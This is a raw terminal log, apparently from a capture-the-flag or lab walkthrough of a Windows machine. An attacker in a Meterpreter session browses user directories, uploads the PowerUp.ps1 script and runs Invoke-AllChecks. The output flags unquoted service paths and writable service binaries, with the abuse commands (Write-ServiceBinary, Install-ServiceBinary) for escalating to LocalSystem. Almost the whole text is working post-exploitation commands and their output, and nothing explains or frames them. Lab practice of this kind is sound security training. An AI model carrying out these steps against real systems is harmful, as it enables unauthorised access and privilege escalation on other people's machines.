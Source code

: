 ```bash
40777/rwxrwxrwx   0        dir   2019-09-27 06:29:03 +0000  Recent
40555/r-xr-xr-x   0        dir   2019-09-27 06:29:03 +0000  Saved Games
40555/r-xr-xr-x   0        dir   2019-09-27 11:07:07 +0000  Searches
40777/rwxrwxrwx   0        dir   2019-09-27 06:29:03 +0000  SendTo
40777/rwxrwxrwx   0        dir   2019-09-27 06:29:03 +0000  Start Menu
40777/rwxrwxrwx   0        dir   2019-09-27 06:29:03 +0000  Templates
40555/r-xr-xr-x   0        dir   2019-09-27 06:29:03 +0000  Videos
100666/rw-rw-rw-  405504   fil   2019-09-27 06:29:03 +0000  ntuser.dat.LOG1
100666/rw-rw-rw-  131072   fil   2019-09-27 06:29:03 +0000  ntuser.dat.LOG2
100666/rw-rw-rw-  20       fil   2019-09-27 06:29:03 +0000  ntuser.ini

meterpreter > cd Desktop
meterpreter > ls
Listing: C:\Users\bill\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 11:07:07 +0000  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 12:42:38 +0000  user.txt

meterpreter > upload PowerUp.ps1
[*] uploading  : PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 483.72 KiB of 483.72 KiB (100.0%): PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : PowerUp.ps1 -> PowerUp.ps1
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks

[*] Running Invoke-AllChecks
[*] Checking if user is in a local group with administrative privileges...
[*] Checking for unquoted service paths...

ServiceName   : AdvancedSystemCareService9
Path          : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AdvancedSystemCareService9' -Path <HijackPath>

ServiceName   : AWSLiteAgent
Path          : C:\Program Files\Amazon\XenTools\LiteAgent.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'AWSLiteAgent' -Path <HijackPath>

ServiceName   : IObitUnSvr
Path          : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'IObitUnSvr' -Path <HijackPath>

ServiceName   : LiveUpdateSvc
Path          : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
StartName     : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'LiveUpdateSvc' -Path <HijackPath>


[*] Checking service executable and argument permissions...

ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFile : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'IObitUnSvr'
```